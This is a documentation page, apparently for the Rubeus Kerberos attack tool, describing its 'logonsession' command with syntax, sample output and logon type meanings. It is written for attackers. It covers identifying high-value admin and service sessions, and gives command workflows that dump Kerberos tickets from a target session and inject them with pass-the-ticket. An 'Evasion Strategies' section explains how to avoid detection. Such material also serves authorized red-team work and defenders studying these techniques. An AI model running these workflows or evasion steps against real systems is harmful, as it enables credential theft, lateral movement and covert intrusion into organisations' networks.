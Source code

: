 ```yaml
---
title: 'logonsession'
description: 'Enumerate all logon sessions on the system'
icon: 'users'
sidebarTitle: 'logonsession'
---
```


## Overview

Enumerate all logon sessions currently active on the system. This command provides detailed information about each session including user identity, logon type, and session characteristics for targeting and operational planning.

## Syntax

```bash
Rubeus.exe logonsession [options]
```

## Optional Parameters

<ParamField path="luid" type="string">
  Display information for specific LUID only
</ParamField>

## Examples

<CodeGroup>
```bash Basic Enumeration
# List all logon sessions
Rubeus.exe logonsession

# Display specific session details
Rubeus.exe logonsession /luid:0x12345
```
</CodeGroup>

## Session Information

<Accordion title="Displayed Details">
  **Session Attributes:**
  - LUID (Logon Session Identifier)
  - Username and domain
  - Logon type and time
  - Authentication package
  - Session state and characteristics

  **Logon Types:**
  - 2: Interactive (console logon)
  - 3: Network (remote authentication)
  - 4: Batch (scheduled task)
  - 5: Service (service account)
  - 7: Unlock (workstation unlock)
  - 8: NetworkCleartext (IIS authentication)
  - 9: NewCredentials (RunAs with /netonly)
  - 10: RemoteInteractive (RDP/Terminal Services)
  - 11: CachedInteractive (cached domain credentials)
</Accordion>

## Use Cases

<Accordion title="Session Analysis">
  **Target Identification:**
  - Find high-privilege user sessions
  - Identify administrative logons
  - Locate service account sessions
  - Map user activity patterns

  **Operational Planning:**
  - Plan cross-session ticket operations
  - Identify accessible session contexts
  - Target specific user sessions
  - Assess system security posture
</Accordion>

<Accordion title="Session Targeting">
  **High-Value Sessions:**
  - Domain administrator sessions
  - Service account sessions with delegation
  - Interactive administrative sessions
  - Recent authentication activities

  **Session Characteristics:**
  - Session age and activity
  - Authentication package used
  - Network vs. interactive sessions
  - Cached vs. live authentication
</Accordion>

## Output Analysis

<Accordion title="Understanding Results">
  **Sample Output:**
  ```bash
  Rubeus.exe logonsession

  [*] Action: Enumerate Logon Sessions

  [*] Logon Sessions:

  LUID                 : 0x3e7 (999)
  UserName             : 
  Domain               : 
  LogonType            : 0 (System)
  AuthenticationPackage: 
  LogonTime            : 1/1/1601 12:00:00 AM
  LogonServer          : 
  LogonServerDNSDomain : 
  UserPrincipalName    : 

  LUID                 : 0x54321 (344865)
  UserName             : admin
  Domain               : CORP
  LogonType            : 10 (RemoteInteractive)
  AuthenticationPackage: Kerberos
  LogonTime            : 10/25/2024 9:15:30 AM
  LogonServer          : DC01
  LogonServerDNSDomain : corp.local
  UserPrincipalName    : admin@corp.local
  ```

  **Key Elements:**
  - LUID identifies session for targeting
  - LogonType indicates session characteristics
  - AuthenticationPackage shows credential type
  - Recent LogonTime indicates active sessions
</Accordion>

## Integration Workflows

<Accordion title="Session Discovery and Targeting">
  **Complete Workflow:**
  ```bash
  # 1. Enumerate all sessions
  Rubeus.exe logonsession

  # 2. Identify high-value targets
  # Look for admin users, recent logons, Kerberos auth

  # 3. Target specific sessions
  Rubeus.exe dump /luid:0x54321

  # 4. Use extracted credentials
  Rubeus.exe ptt /ticket:extracted.kirbi
  ```
</Accordion>

<Accordion title="Cross-Session Operations">
  **Multi-Session Analysis:**
  ```bash
  # 1. Map all active sessions
  Rubeus.exe logonsession

  # 2. Check current session context
  Rubeus.exe currentluid

  # 3. Plan cross-session ticket injection
  Rubeus.exe ptt /ticket:admin.kirbi /luid:target_luid

  # 4. Verify injection success
  Rubeus.exe klist /luid:target_luid
  ```
</Accordion>

## Session Types Analysis

<Accordion title="Logon Type Significance">
  **Interactive Sessions (2, 7, 10, 11):**
  - User actively logged in
  - Likely to have cached credentials
  - May have elevated privileges
  - Good targets for credential extraction

  **Network Sessions (3, 8):**
  - Remote authentication only
  - May have limited cached credentials
  - Useful for understanding network access
  - May indicate lateral movement

  **Service Sessions (4, 5):**
  - Automated service accounts
  - Often have delegation rights
  - May run with high privileges
  - Good targets for persistence
</Accordion>

## Operational Security

<Accordion title="Detection Considerations">
  **Monitoring Indicators:**
  - Process accessing LSA session information
  - Enumeration of multiple logon sessions
  - Correlation with other suspicious activities
  - Unusual session analysis patterns

  **Evasion Strategies:**
  - Limit frequency of enumeration
  - Focus on specific high-value sessions
  - Use during normal business hours
  - Correlate with legitimate activities
</Accordion>

## Related Commands

- [`currentluid`](/commands/miscellaneous/currentluid) - Display current session LUID
- [`dump`](/commands/extraction/dump) - Extract tickets from specific sessions
- [`ptt`](/commands/management/ptt) - Inject tickets into specific sessions
- [`triage`](/commands/extraction/triage) - Quick session ticket overview